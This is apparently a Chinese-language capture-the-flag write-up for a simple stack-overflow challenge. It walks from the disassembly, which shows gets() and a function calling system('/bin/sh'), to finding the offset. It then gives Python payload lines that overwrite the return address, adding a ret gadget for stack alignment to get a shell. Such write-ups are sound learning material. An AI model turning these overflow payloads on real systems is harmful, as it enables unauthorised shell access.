





先查防护，发现全关

阅读反汇编源码

~~~asm
00401142    int32_t main(int32_t argc, char** argv, char** envp)

00401151        puts(str: "please input")
00401162        char var_17
00401162        gets(buf: &var_17)
0040116e        puts(str: &var_17)
0040117a        puts(str: "ok,bye!!!")
00401185        return 0

00401186    int64_t fun()

00401198        return system(line: "/bin/sh")

~~~

发现使用get获取数据，存在溢出空间。

所以先通过cyclic和gdb测试出offset

即需要覆盖23位即可覆盖到rip

之后尝试构建payload（A为offsetB代表覆盖的rbp）

~~~python
payload = b'A'*15+b'B'*8+p64(0x401186)
~~~

之后发现并不能拿到shell，通过gdb调试得知

说明栈没有对齐。所以需要再找一个ret加入到payload中

通过寻找gadget找一个ret

重新构建payload

~~~python	
payload = b'A'*15+b'B'*8+p64(ret)+p64(0x401186)
~~~

